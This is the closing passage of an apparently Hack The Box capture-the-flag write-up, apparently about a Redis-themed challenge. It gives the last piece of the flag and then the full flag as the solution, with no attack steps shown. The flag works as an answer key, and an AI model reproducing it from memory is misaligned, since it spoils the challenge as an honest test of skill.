

I find the last part of the flag: `_un3xp3c73d_7r41l5!}`

### 3. Solution ###
1. **Result:** The flag is `HTB{r3d15_1n574nc35_c0uld_0p3n_n3w_un3xp3c73d_7r41l5!}`